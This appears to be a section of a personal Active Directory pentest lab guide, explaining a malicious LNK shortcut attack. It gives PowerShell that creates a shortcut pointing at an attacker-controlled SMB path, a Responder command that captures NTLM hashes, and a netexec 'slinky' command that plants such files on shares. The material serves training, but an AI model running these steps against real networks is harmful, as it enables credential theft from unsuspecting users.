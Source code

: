 # VIII. LNK File Attack

This attack leverages malicious .LNK (shortcut) files to infect a system. LNK files are shortcut files commonly used in Windows to point to executable file or directories. These can be crafted maliciously to execute arbitrary commands when opened by a user.

## How is a LNK File Attack Performed?

Boot up any Windows user machine.

- Open Powershell as an Administrator
- Paste the following line by line into the console:
    
    ```powershell
    $objShell = New-Object -ComObject WScript.shell
    $lnk = $objShell.CreateShortcut("C:\test.lnk")
    $lnk.TargetPath = "\\192.168.138.149\@test.png"
    $lnk.WindowStyle = 1
    $lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
    $lnk.Description = "Test"
    $lnk.HotKey = "Ctrl+Alt+T"
    $lnk.Save()
    ```
    
    NOTE: Make sure the TargetPath is set to the IP address of the Kali machine.
    
    ![lnk 1.png](VIII%20LNK%20File%20Attack%203eca55e4a68647aeb747bb9924828875/lnk_1.png)
    
- Save the file as `~test`. This is to make the file get loaded at the top.
- Move the file into the file share in this, mine is named `The Loot`.
    
    ![lnk 2.png](VIII%20LNK%20File%20Attack%203eca55e4a68647aeb747bb9924828875/lnk_2.png)
    
- Back on the Kali machine. Start responder with `sudo responder -I eth0 -dPv`
- Navigate back to the file share in Windows, or refresh it to load the lnk file.
- Responder has captured the hashes.
    
    ![lnk 3.png](VIII%20LNK%20File%20Attack%203eca55e4a68647aeb747bb9924828875/lnk_3.png)
    

There’s another method to perform a lnk attack using a tool called `Netexec` which was formerly known as `crackmapexec`. It is pretty much the same tool. The tool has a module called `slinky` that looks for a share that is accessible to the user machine and it’ll upload the malicious lnk file to it without having to access the machine and do it ourselves.

```bash
netexec smb <USERMACHINE-IP> -d <DOMAIN NAME> -u <USERNAME> -p <PASSWORD> -M slinky -o NAME=test SERVER=<KALI-IP>
```

![lnk 4.png](VIII%20LNK%20File%20Attack%203eca55e4a68647aeb747bb9924828875/lnk_4.png)

The current configuration we are using does have the file share exposed. But this is very useful to know in a situation where a file share was exposed.

## Resources:

Additional resources for forced authentication: [https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf)